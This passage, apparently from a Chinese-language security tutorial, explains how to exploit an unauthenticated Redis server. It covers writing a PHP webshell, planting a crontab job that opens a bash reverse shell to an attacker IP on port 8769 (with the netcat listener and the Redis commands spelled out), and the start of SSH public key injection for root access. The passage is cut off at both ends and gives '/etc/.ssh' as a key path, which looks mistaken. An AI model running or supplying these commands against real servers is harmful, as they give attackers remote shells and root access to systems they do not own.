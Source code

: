 ![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuIaejpJOZVOYvaY7zHRehpQk1iauZZSKZ0gJC25W53vsYkvF0fhG5CicQ/640?wx_fmt=jpeg)

\\r\\n\\r\\n 代表换行的意思，用 redis 入的文件会自带一些版本信息，如果不换行可能会导致无法执行。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuoY5oatCa58wdnx4aBF5wYmUylw8xOUACdsfULed2w8WmEJTeFNyJfw/640?wx_fmt=jpeg)

写入成功

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuhgqtRACQR02BZdpiaLnzYRDoe15Rm6qa5pu2a6DqlKjrMEmbOKKe4zg/640?wx_fmt=jpeg)

（将写入内容换成 php 一句话即可 getshell）

0x02 在 crontab 里写定时任务，反弹 shell

利用条件：

权限可写计划任务

使用范围：centos

只能在 centos 下反弹，这是由于 redis 向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos 会忽略乱码去执行格式正确的任务计划，而 ubuntu 并不会忽略这些乱码，所以导致命令执行失败

利用过程：

在权限足够的情况下，利用 redis 写入文件到计划任务目录下执行。

首先监听端口。

```
nc -lvvp 8769
```

利用 redis 生成计划任务配置文件。

```
config set dir /var/spool/cron
set x "\\n\\n\*/1 \* \* \* \* /bin/bash -i>&/dev/tcp/xxx.xxx.xxx.xxx/8769 0>&1\\n\\n"
config set dbfilename root
save
```

每一分钟执行一次，只有目标主机是 centos 才可以成功接收到反弹的 shell。

0x03 写入 ssh 公钥，获取 root 权限

使用范围：开启了密钥认证的 linux 主机

利用条件：

1、root 权限

2、开启了 ssh 密钥登录，存在 / etc/.ssh 文件

利用过程：

当 redis 以 root 身份运行，可以给 root 账户写入 SSH 公钥文件，直接通过 SSH 登录目标服务器。

1、首先在靶机上开启 ssh 密钥登录。

修改 / etc/ssh/sshd\_config 配置文件:
